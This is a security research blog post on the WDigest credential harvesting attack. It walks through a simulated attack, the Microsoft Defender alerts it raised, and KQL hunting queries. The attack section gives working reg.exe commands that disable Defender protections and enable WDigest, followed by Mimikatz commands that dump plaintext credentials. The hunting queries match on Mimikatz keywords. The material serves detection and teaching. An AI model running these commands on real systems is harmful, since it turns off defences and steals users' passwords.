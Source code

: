# Day 13 - WDigest credential harvesting - attack
Hi there !! Thank you for visiting [@SecurityResearch-Note](https://github.com/LearningKijo/SecurityResearcher-Note). 
Today, I'm diving into the WDigest credential harvesting attack, breaking it down into three parts. 
1. WDigest credential harvesting - Attack technique 
2. WDigest credential harvesting - Detection
3. WDigest credential harvesting - Threat Hunting

#### Attack overview
WDigest, an outdated authentication protocol still found in corporate networks, is exploited by attackers to steal passwords and evade security measures. 
Its use exposes passwords in plain text, making it a favored target. Attackers modify registry settings to enable WDigest, often using various attack vectors. 


![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/05b4876b-ebe3-48fc-8b59-398cffe0d928)
> WDigest credential harvesting attack flow, [Threat Analytics](https://learn.microsoft.com/en-us/microsoft-365/security/defender/threat-analytics?view=o365-worldwide) in Microsoft 365 Defender

## Attack technique
The attack flow begins with disabling the antivirus solution to change a registry key, enabling WDigest, and downloading the Mimikatz tool. 
Following this, a command is executed to enable WDigest and run the Mimikatz tool using the "sekurlsa::wdigest" command.

#### 1. Disable Microsoft Defender antivirus
   - [x] DisableRealtimeMonitoring,  [Real-time protection]
   - [x] SpynetReporting, [Cloud-delivered protection]
   - [x] SubmitSamplesConsent, [Automatic sample submission]

```powershell
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v "DisableRealtimeMonitoring" /t REG_DWORD /d 1 /f
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" /v "SpynetReporting" /t REG_DWORD /d 0 /f
reg.exe add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Spynet" /v "SubmitSamplesConsent" /t REG_DWORD /d 2 /f
```

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/28105886-3f1d-4cea-8de8-c7048a60bd9a)

> [!Important]
> These commands disabled Microsoft Defender Antivirus configurations. To prevent and detect these attack techniques, enabling [Tamper Protection](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/prevent-changes-to-security-settings-with-tamper-protection?view=o365-worldwide) is the most effective approach, as it safeguards against disabling antivirus.

#### 2. Enable Wdigest
[MITRE | ATT&CK, Modify Registry, T1112, Wdigest](https://attack.mitre.org/techniques/T1112/)

```powershell
reg.exe add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest" /v UseLogonCredential /t REG_DWORD /d 1 /f
```

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/49e3a65c-fe1c-42da-9ac6-902fa5f1f51b)

> [!Important]
> Even if the antivirus didn't detect and prevent the WDigest configuration change, Microsoft Defender for Endpoint, as EDR solution, can detect these activities and provide alerts.

#### 3. Download & Execute Mimikatz tool
Download - [GitHub - ParrotSec/mimikatz](https://github.com/ParrotSec/mimikatz)

```mimikatz
mimikatz # privilege::debug
mimikatz # sekurlsa::wdigest
```

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/9ef03db8-22a6-45fc-a8ca-5ac7dd4bb298)

> [!Important]
> In terms of endpoint protection, Microsoft Defender Antivirus and Microsoft Defender for Endpoint are the most effective solutions for preventing and detecting Mimikatz activities.
> Additionally, when it comes to addressing lateral movement and enhancing identity visibility, Microsoft Defender for Identity is a valuable product for detecting such activities.

## Detection
After simulating a WDigest credential harvesting attack, let's examine how this attack is mapped into a single incident in Microsoft 365 Defender portal.

All the attack techniques, from disabling antivirus to executing Mimikatz, were detected by Microsoft Defender for Endpoint, generating 11 alerts. Additionally, Threat Analytics provides insights related to Mimikatz and WDigest credential harvesting.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/1c9c3f9d-4ff2-4269-b67f-f6d6a67f72b3)

#### ***Alert : Microsoft Defender Antivirus protection turned off***
A protection feature in Microsoft Defender Antivirus has been turned off. An attacker might be trying to evade detection.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/dde8b17c-38bc-4847-87fc-d8940ebc8313)

#### ***Alert : WDigest configuration change***
An attempt to turn on the WDigest authentication provider through the registry was observed.
If the attempt is successful, WDigest will load on the next restart and begin to store credentials as plaintext in LSASS process memory. An attacker might be attempting to collect those credentials.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/8065422f-a296-46a3-82a0-71a0997108db)

#### ***Alert : Malicious credential theft tool execution detected***
A known credential theft tool execution command line was detected. Either the process itself or its command line indicated an intent to dump users' credentials, keys, plain-text passwords and more.
> [!Note]
> The two mimikatz commands (mimikatz # privilege::debug, mimikatz # sekurlsa::wdigest) which I simulated on the device were detected by Microsoft Defender for Endpoint. Also, an alert - 'Mimikatz credential theft tool' was triggered when downloading Mimikatz on the device.

![image](https://github.com/LearningKijo/SecurityResearcher-Note/assets/120234772/d4325269-853e-4488-837d-2a56e77b0928)


## Threat Hunting
For threat hunting purposes, here are some KQL queries to track activities like disabling antivirus, changing WDigest configurations, and executing Mimikatz tool.

#### WDigest configuration change
This query helps identify attempts to enable WDigest credentiall caching through the registry.

```kql
union DeviceRegistryEvents, DeviceProcessEvents
// Find attempts to turn on WDigest credential caching
| where RegistryKey contains "wdigest" and RegistryValueName == "UseLogonCredential" and RegistryValueData == "1" or 
// Find processes created with commandlines that attempt to turn on WDigest caching
ProcessCommandLine has "WDigest" and ProcessCommandLine has "UseLogonCredential" and ProcessCommandLine has "dword" and ProcessCommandLine has "1"
| project Timestamp, DeviceName, PreviousRegistryValueData,  
RegistryKey, RegistryValueName, RegistryValueData, FileName, ProcessCommandLine, 
InitiatingProcessAccountName, InitiatingProcessFileName, 
InitiatingProcessCommandLine, InitiatingProcessParentFileName
```
> **Source** : WDigest credential harvesting, Threat Analytics in Microsoft 365 Defender

#### Mimikatz CommandLine

```kql
DeviceProcessEvents
| where Timestamp > ago(30d)
| where FileName in~ ("powershell.exe","powershell_ise.exe", "mimikatz.exe")
| where ProcessCommandLine has_any ("sekurlsa","kerberos","crypto", "vault", "lsadump") or InitiatingProcessCommandLine has_any ("sekurlsa","kerberos","crypto", "vault", "lsadump")
| summarize make_set(ProcessCommandLine) by DeviceId, DeviceName
```

## Reference
1. [Forcing WDigest to Store Credentials in Plaintext](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/forcing-wdigest-to-store-credentials-in-plaintext)
2. "WDigest credential harvesting", from [Threat Analytics](https://learn.microsoft.com/en-us/microsoft-365/security/defender/threat-analytics?view=o365-worldwide) in Microsoft 365 Defender

#### Disclaimer
The views and opinions expressed herein are those of the author and do not necessarily reflect the views of company.
